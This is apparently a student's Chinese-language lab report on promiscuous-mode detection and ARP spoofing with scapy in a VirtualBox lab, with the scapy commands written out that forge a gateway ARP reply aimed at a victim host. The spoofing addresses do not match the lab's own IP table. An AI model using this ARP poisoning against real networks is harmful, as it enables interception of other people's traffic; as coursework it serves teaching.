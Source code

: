 # 第四次实验监听实验

## 实验环境

- VirtualBox 虚拟机
- 攻击者主机（Attacker）：Kali Rolling
- 网关（Gateway）：Debian Buster
- 靶机（Victim）：xp-sp3 / Kali 

## 第一个实验

### 实验准备

1. Attacker添加intnet2，保证主机、网关、靶机在同一局域网内

2. 打开kali，修改kali的配置文件，修改之后重启网卡，重新输入ip a，就可以获得kali的ip地址

   ![image-20230105160527668](img\kali ip.png)

3. 同理获取其余主机ip

   |           |       ip       |           mac            |
   | :-------: | :------------: | :----------------------: |
   | Attacker  | 172.16.222.129 |  08:00:27:00:b0:b9 eth1  |
   | Victim-XP | 172.16.222.144 |    08:00:27:22:9c:67     |
   |  Gateway  |  172.16.222.1  | 08:00:27:25:f9:45 enp0s9 |

### 没有开启混杂模式

在靶机上检测混杂模式

```shell
ip link show enp0s3
```

![](img\检查混杂模式.png)

在攻击者主机上开启scapy

```shell
sudo scapy
pkt = promiscping("172.16.222.144")
```

检测结果

![](img\scapy.png)

查看arp缓存表，没有在eth3这块网卡有新的IP与mac对应

![](img\arp缓存.png)

### 开启混杂模式

1. 开启靶机网卡的混杂模式

   ```shell
   sudo ip link set enp0s3 promisc on
   ip link show enp0s3
   ```

   成功开启

   ![](img\开启混杂模式.png)

2. Attacker继续执行上次的scapy命令

   ![](img\开启混杂模式之后.png)

3. 关闭混杂模式

   ![](img\关闭混杂模式.png)

## 第二个实验

获取当前局域网的网关 MAC 地址 构造一个 ARP 请求

```shell
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")
arpbroadcast.show() ##查看构造好的 ARP 请求报文详情
```

发送这个 ARP 广播请求

```shell
recved = srp(arpbroadcast, timeout=2)
gw_mac = recved[0][0][1].hwsrc
```

伪造网关的 ARP 响应包 准备发送给受害者主机192.168.0.102 ARP 

响应的目的 MAC 地址设置为攻击者主机的 MAC 地址 

```shell
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```

发送上述伪造的 ARP 响应数据包到受害者主机

```shell
sendp(arpspoofed)
```

## 反思总结

自我感觉本次实验完成度不高，依据老师的步骤照猫画虎完成。遇到的问题有在基本网络拓扑与网卡配置方面依旧出现了不少的问题。而且是新的拓扑图，需要去更改attacker的相关网络配置。以后需要多多练习，仔细观察。初步认识了scapy，了解了一些基本的语法与操作。

### 参考资料

[网络通信命令](https://blog.csdn.net/qq_41105501/article/details/117896789)

[Scapy](https://www.osgeo.cn/scapy/introduction.html)

https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html